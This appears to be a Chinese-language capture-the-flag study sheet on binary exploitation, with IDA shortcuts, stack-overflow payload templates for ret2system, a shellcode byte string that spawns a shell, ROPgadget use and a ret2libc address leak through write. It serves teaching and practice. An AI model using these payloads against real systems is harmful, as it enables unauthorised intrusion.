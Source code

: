 ### hint
- ida快捷键 
  - 提取数据 shift + E
  - 查找strings alt + T
  - 打开strings窗口 shift + F12
- 对于合起来的长字符，右键点一下data会按字节转换成几个
- db: 1个字节单元，dw: 2个字节单元，dd: 4个字节单元
- system函数：何时需要填补return地址
  - 第一种，溢出后的返回地址是system的地址，也就是plt表中system的地址   
    `payload = 'a' * (0x88 + 4) + p32(system_addr) + p32(return_addr) + p32(binsh_addr)`  
  - 第二种，溢出后的返回地址是call system的地址，这是程序中出现过的调用system的地址   
    `payload = 'a' * (0x88 + 4) + p32(system_addr) + p32(binsh_addr)`  
- 查找函数在plt表中的地址：  
  - `$ objdump -d -j .plt ./pwn | grep system`  
- 当plt表中没有system函数时，可以尝试shellcode（一串可以返回shell的机器指令码）
    ```python
    context.os='Linux'
    context.arch='amd64'
    shellcode = asm(shellcraft.sh())
    # 64位系统也可以直接用下面这个
    shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05'
    ```
- 查找ret地址：
  - `ROPgadget --binary pwn --only "pop|ret" `
- libc
  - 题目给了libc： `libc=ELF('libc-2.23.so')`  
    题目没给libc，用LibcSearcher自动识别一下：`libc=LibcSearcher('write',write_addr)`  
  - 查找基地址
    ```python
    elf = ELF("./pwn")
    puts_plt = elf.plt['puts']
    puts_got = elf.got['puts']
    ```
  - write函数泄露地址  
    函数原型：  
    ```c
    ssize write(int fd,const void * buf,size_t count);
    ```  
    payload：首先将write_plt作为栈上的调用地址，main作为write_plt函数的返回地址方便下一步循环，1为write的写模式，写入的内容为write_got，写入长度为4字节（32位）  
    ```python
    payload=p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4)
    write_addr=u32(p.recv(4))
    ```  
    原理：由于程序中有write函数，因此write装载在plt表中，可以直接用write_plt调用。在程序未调用write前，不会将write装载到got表里，因此需要先调用一次write_plt，装载之后got表里就存储了write的真实地址，再打印这个真实地址出来即可计算基地址。

### 环境
#### checksec
- STACK CANARY 栈保护 不能直接覆盖函数返回地址
- NX 输入的字段不可编译 用ROP绕过
- PIE 类似ASLR地址随机化
- FORTIFY 函数源码保护，read, printf等函数漏洞无法利用
